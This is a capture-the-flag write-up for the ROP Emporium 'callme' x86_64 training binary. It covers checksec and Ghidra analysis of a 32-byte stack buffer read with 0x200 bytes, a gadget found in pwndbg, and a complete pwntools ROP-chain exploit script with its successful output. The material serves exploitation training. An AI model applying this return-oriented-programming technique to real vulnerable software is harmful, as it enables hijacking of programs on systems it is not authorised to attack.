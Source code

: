 # callme

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ checksec callme    
[*] '/home/vein/rop_emporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./callme    
callme by ROP Emporium
x86_64

Hope you read the instructions...

> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("callme by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```
```c
void usefulFunction(void)

{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 512 = 0x200

# Exploitation
Challennge description says that to take the flag we must call
callme_one(), callme_two() and callme_three() functions in that order, each with the arguments:\
```text
0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```
To achieve this we want some rop gadgets to pop the values into the stack.\
For our luck, we found a hide funtion inside pwndbg that has the gadgets that we need.\
Either way we could found them with ropper.
```asm
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ gdb-pwndbg callme
Reading symbols from callme...
(No debugging symbols found in callme)
pwndbg: loaded 141 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret
End of assembler dump.
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./callme', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

# pop rdi; pop rsi; pop rdx; ret;
pop_gadgets = 0x40093c

payload1 = offset
payload1 += p64(pop_gadgets)
payload1 += p64(0xdeadbeefdeadbeef)
payload1 += p64(0xcafebabecafebabe)
payload1 += p64(0xd00df00dd00df00d)
payload1 += p64(elf.symbols.callme_one)

payload2 = p64(pop_gadgets)
payload2 += p64(0xdeadbeefdeadbeef)
payload2 += p64(0xcafebabecafebabe)
payload2 += p64(0xd00df00dd00df00d)
payload2 += p64(elf.symbols.callme_two)

payload3 = p64(pop_gadgets)
payload3 += p64(0xdeadbeefdeadbeef)
payload3 += p64(0xcafebabecafebabe)
payload3 += p64(0xd00df00dd00df00d)
payload3 += p64(elf.symbols.callme_three)

payload = payload1 + payload2 + payload3

p.sendlineafter(b'>', payload)
log.info(p.recvall())
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./exploit.py   
[+] Starting local process '/home/vein/rop_emporium/callme/callme': pid 12129
[+] Receiving all data: Done (105B)
[*] Process '/home/vein/rop_emporium/callme/callme' stopped with exit code 0 (pid 12129)
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
```
